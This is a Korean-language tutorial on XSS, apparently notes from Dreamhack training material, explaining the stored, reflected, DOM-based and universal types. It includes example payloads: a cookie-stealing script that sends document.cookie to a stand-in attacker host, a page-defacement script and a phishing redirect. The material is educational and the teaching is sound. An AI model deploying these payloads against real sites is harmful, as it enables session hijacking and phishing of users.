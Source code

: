 # 서론

클라이언트 사이드 취약점은 **웹 페이지의 이용자를 대상**으로 공격할 수 있는 취약점이다. 해당 종류의 취약점을 통해 이용자를 식별하기 위한 **세션 및 쿠키 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있다.**

# Cross-Site-Scripting (XSS)

`XSS`는 클라이언트 사이드 취약점 중 하나로, 공격자가 **웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행하게 하는 것이다.**

공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있다.

예를 들어, 드림핵 웹 페이지에서 `XSS` 취약점이 존재하면 `https://dreamhack.io` 내에서 오리진 권한으로 악성 스크립트를 삽입할 수 있다.

이후 이용자가 악성 스크립트가 포함된 페이지를 방문하면 공격자가 임의로 삽입한 스크립트가 실행되어 쿠키 및 세션이 탈취될 수 있다.

`XSS`는 `SOP` 보안 정책이 등장하면서, 서로 다른 오리진에서는 정보를 읽는 행위가 이전에 비해 힘들어졌지만, 이를 우회하는 다양한 기술이 존재하기 때문에 `XSS` 공격은 여전히 지속되고 있다.

![Concept of XSS Illustrated](https://github.com/user-attachments/assets/5ebdb9f7-39bf-42e6-b6ef-2d43d25a4015)

## XSS 발생 예시와 종류

`XSS` 공격은 **이용자가 삽입한 내용을 출력하는 기능**에서 발생한다. 이러한 기능의 예로는 로그인 시 출력되는 "안녕하세요, OO회원님"과 같은 문구 또는, 게시물과 댓글이 있다.

클라이언트(예를 들어 브라우저)는 `HTTP` 형식으로 웹 서버에 리소스를 요청하고, 서버로부터 받은 응답인 `HTML, CSS, JS` 등의 웹 리소스를 시각화하여 이용자에게 보여준다.

이때, 만약 악성 웹 리소스가 포함된 게시물을 조회할 경우, 이용자는 변조된 페이지를 보거나 악성 스크립트가 실행될 수 있다.

`XSS`는 아래와 같이 발생 형태(**악성 스크립트가 삽입되는 위치 등**)에 따라서 다양한 종류로 구분되고, [실습 모듈](https://learn.dreamhack.io/labs/2ec6c228-ff7e-46f1-9196-da5f5bd5f1f4) 링크를 통해 직접 테스트해볼 수 있다.

|종류|설명|
|---|---|
|Stored XSS|XSS에 사용되는 악성 스크립트가 **서버에 저장**되고 **서버의 응답에 담겨오는** XSS|
|Reflected XSS|XSS에 사용되는 악성 스크립트가 **URL에 삽입**되고 **서버의 응답에 담겨오는** XSS|
|DOM-based XSS|XSS에 사용되는 악성 스크립트가 **URL Fragment에 삽입되는** XSS<br><ul>Fragment는 서버 요청/응답 에 포함되지 않는다.</ul>|
|Universal XSS|클라이언트의 **브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점**으로 **SOP 정책을 우회**하는 XSS|

## XSS 스크립트 예시

`자바스크립트`는 웹 문서의 동작을 정의한다. 이는 이용자가 버튼 클릭 시에 어떤 이벤트를 발생시킬지와 데이터 입력 시 해당 데이터를 전송하는 이벤트를 구현할 수 있다. 

이러한 기능 외에도 이용자와의 상호 작용 없이 **이용자의 권한으로 정보를 조회하거나 변경하는 등의 행위가 가능**합니다. 

이러한 행위가 가능한 이유는 이용자를 식별하기 위한 **세션 및 쿠키가 웹 브라우저에 저장되어 있기 때문**입니다. 따라서 공격자는 자바스크립트를 통해 이용자에게 보여지는 **웹 페이지를 조작하거나, 웹 브라우저의 위치를 임의의 주소로 변경**할 수 있습니다.

자바스크립트는 다양한 동작을 정의할 수 있기 때문에 XSS 공격에 주로 사용되고, 자바스크립트를 실행하기 위한 태그로는 `<script>`가 있다. 아래 코드들은 자바스크립트를 이용한 `XSS` 공격 코드 예시이다.

### 쿠키 및 세션 탈취 공격 코드

```
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

더 자세히 설명하면, `image.src`를 설정하면 `src`에 대입된 주소로, 이미지를 가져오기 위한 `HTML` 리퀘스트를 보낸다.

여기서 현재 브라우저의 `document.cookie`를 가져와서 `?cookie = document.cookie`로 쿼리를 보내기 떄문에 공격자 주소로 현재 브라우저의 쿠키값이 전달되게 된다.

### 페이지 변조 공격 코드

```
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

### 위치 이동 공격 코드

```
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

`Stored XSS`와 `Reflected XSS`에 대해 [실습 모듈](https://learn.dreamhack.io/labs/2ec6c228-ff7e-46f1-9196-da5f5bd5f1f4)과 함께 조금 더 자세히 살펴보자.

